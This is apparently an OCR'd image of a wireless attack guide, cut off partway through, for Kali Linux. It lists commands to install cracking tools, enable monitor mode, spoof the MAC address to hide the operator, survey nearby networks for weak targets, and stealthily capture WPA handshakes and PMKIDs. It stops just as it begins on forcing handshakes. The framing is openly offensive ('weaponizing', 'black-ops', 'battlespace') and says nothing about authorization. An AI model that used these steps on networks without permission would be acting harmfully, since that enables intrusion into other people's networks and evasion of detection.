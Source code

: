 🜃 1. Environment Setup: Weaponizing Kali KDE
Kali Linux (KDE flavor) is your base, but for true operational readiness:

Update Everything:

sudo apt update && sudo apt full-upgrade -y

Install Essential Tools (if not already present):

sudo apt install aircrack-ng bettercap hcxtools hashcat wireshark reaver bully wifite2

Driver Check:
Ensure your WiFi adapter supports monitor mode and packet injection.
(Alfa AWUS036ACH, Panda PAU09, or similar are black-ops standards.)

Enable Monitor Mode:

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up

(Or use airmon-ng start wlan0 for quick setup.)

MAC Address Spoofing (Operational Security 101):

sudo macchanger -r wlan0

—

🜃 2. Reconnaissance: Mapping the Wireless Battlespace
Before you attack, you map.

airodump-ng:

sudo airodump-ng wlan0

Identify targets: BSSID (MAC address of AP), ESSID (network name), channel (CH).
Look for:
Weak encryption (WEP, WPA, WPA2-PSK).
High client activity (more clients = more attack vectors).
Hidden networks (ESSID cloaked — but still fingerprintable).
Advanced Recon with bettercap:

sudo bettercap -iface wlan0

Use wifi.recon on to passively map all nearby networks and clients.
Use wifi.show to display detailed info.
Passive Handshake Capture:

sudo hcxdumptool -i wlan0 -o capture.pcapng --enable_status=15

(Captures PMKID and handshakes without active deauths — stealthier.)

—

🜃 3. Attack Vectors: Cracking the Air
Depending on the target's defenses, you have multiple options:

🜃 3.1 WPA/WPA2 Handshake Capture + Crack
Force a Handshake (if passive capture fails):
